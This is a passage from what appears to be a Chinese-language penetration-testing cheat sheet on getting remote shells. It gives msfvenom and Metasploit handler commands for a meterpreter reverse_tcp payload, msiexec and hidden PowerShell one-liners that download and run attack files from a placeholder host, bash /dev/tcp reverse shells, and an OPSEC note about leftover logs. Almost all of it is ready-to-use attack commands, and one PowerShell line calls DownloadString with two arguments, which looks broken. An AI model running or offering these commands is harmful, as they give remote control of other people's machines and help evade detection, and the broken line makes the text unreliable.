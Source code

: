 ```bash
handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```

上线。

```powershell
msiexec /q /i http:<Host>/attack.msi
```

*OPSEC：运行后不知道 `%TEMP%` 是否存在日志，需确认（这条待确认）*[https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84msiexec#:~:text=%E6%89%A7%E8%A1%8C%E5%90%8E%E4%BC%9A%E5%9C%A8%25TEMP%25%E4%B8%8B%E7%94%9F%E6%88%90MSI%E7%9A%84log%E6%96%87%E4%BB%B6%EF%BC%8C%E5%A6%82%E5%9B%BE](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84msiexec#:~:text=%E6%89%A7%E8%A1%8C%E5%90%8E%E4%BC%9A%E5%9C%A8%25TEMP%25%E4%B8%8B%E7%94%9F%E6%88%90MSI%E7%9A%84log%E6%96%87%E4%BB%B6%EF%BC%8C%E5%A6%82%E5%9B%BE)\*

#### 2.1.8 exe 可执行文件

生成 Payload。

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Host> lport=<Port> -f exe -o attack.exe
```

MSF 监听。

```bash
handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```

上线。

```powershell
powershell (New-Object Net.WebClient).DownloadString('http://<Host>/attack.bat', 'attack.exe');start attack.exe

powershell -w hidden -ep bypass -nop (New-Object Net.WebClient).DownloadString('http://<Host>/attack.exe', 'attack.exe');start-process attack.exe
```

### 2.2 Linux

#### 2.2.1 Bash

控制端将输入传输到被控端执行，被控端也要将执行返回的内容输出到控制端完成交互。

```bash
// 返回部分交互式 Shell，没有 [Username@HostName CurrentDir]
bash -i > /dev/tcp/<IP>/<Port> 0>&1 2>&1

// 能够返回完整可交互 Shell
bash -i &> /dev/tcp/<IP>/<Port> 0>&1
```

bash -i

/dev/tcp

0>&1
